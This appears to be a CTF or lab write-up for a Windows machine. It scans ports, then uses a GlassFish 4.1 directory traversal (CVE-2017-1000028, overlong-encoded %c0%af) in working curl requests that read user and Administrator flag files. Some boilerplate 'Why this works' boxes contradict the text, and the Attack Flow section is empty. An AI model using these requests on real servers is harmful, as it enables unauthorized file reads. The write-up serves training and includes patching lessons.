

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Easy |
| Attack Surface            | Web (GlassFish 4.1 on port 4848, SynaMan on port 6060) |
| Primary Entry Vector      | GlassFish 4.1 directory traversal via UTF-8 encoded `%c0%af` (CVE-2017-1000028 / EDB-39441) |
| Privilege Escalation Path | Same directory traversal — direct file read of Administrator desktop |

## Credentials

No credentials obtained (attack was entirely unauthenticated file read).

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.168:135
Open 192.168.198.168:139
Open 192.168.198.168:445
Open 192.168.198.168:3389
Open 192.168.198.168:3700
Open 192.168.198.168:4848
Open 192.168.198.168:5040
Open 192.168.198.168:6060
Open 192.168.198.168:7676
Open 192.168.198.168:7776
Open 192.168.198.168:8080
Open 192.168.198.168:8181
Open 192.168.198.168:8686
```

```bash
PORT      STATE SERVICE              VERSION
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server        Microsoft Terminal Services
| ssl-cert: Subject: commonName=Fishyyy
3700/tcp  open  giop
4848/tcp  open  http                 Sun GlassFish Open Source Edition  4.1
|_http-title: Login
6060/tcp  open  x11?                 (Synametrics Web Server v7 / SynaMan 5.1)
7676/tcp  open  java-message-service Java Message Service 301
7776/tcp  open  java-rmi             Java RMI
8080/tcp  open  http                 Sun GlassFish Open Source Edition  4.1
|_http-title: Data Web
8181/tcp  open  ssl/http             Sun GlassFish Open Source Edition  4.1
8686/tcp  open  java-rmi             Java RMI
```

Multiple services were running. GlassFish 4.1 was exposed on ports 4848 (admin console), 8080 (application), and 8181 (SSL). SynaMan 5.1 file manager was on port 6060. A searchsploit query confirmed a known directory traversal:

```bash
searchsploit oracle glassfish
```

```bash
Oracle GlassFish Server 4.1 - Directory Traversal  | multiple/webapps/39441.txt
```

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

EDB-39441 describes a directory traversal in GlassFish 4.1 using UTF-8 overlong encoding (`%c0%af` represents `/`). The vulnerability exists in the admin console on port 4848:

First, enumerating the user directories:

```bash
curl http://192.168.198.168:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afUsers/
```

```bash
Administrator
All Users
arthur
Default
Default User
desktop.ini
Public
```

Reading the user flag:

```bash
curl http://192.168.198.168:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afUsers/arthur/desktop/local.txt
```

```bash
6502c9405e0023e2023234bbf9b69dbd
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
The same directory traversal vulnerability was used to read the Administrator's proof flag directly:

```bash
curl http://192.168.198.168:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afUsers/administrator/desktop/proof.txt
```

```bash
7eb605ace99f2712d737ea97ac2834d2
```

No shell access or additional privilege escalation was required — the directory traversal provided full file system read access including Administrator files.

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- GlassFish 4.1 has a directory traversal using UTF-8 overlong encoding (`%c0%af`) — update to a patched version.
- The `%c0%af` encoding bypasses standard path normalization that would block `../` sequences.
- Like DVR4, this machine demonstrates that arbitrary file read vulnerabilities can be sufficient to capture all flags without interactive shell access.
- Multiple exposed services (GlassFish, SynaMan, Java RMI) increase the attack surface — minimize exposed services.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- EDB-39441 — Oracle GlassFish Server 4.1 Directory Traversal: https://www.exploit-db.com/exploits/39441
- CVE-2017-1000028: https://nvd.nist.gov/vuln/detail/CVE-2017-1000028
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
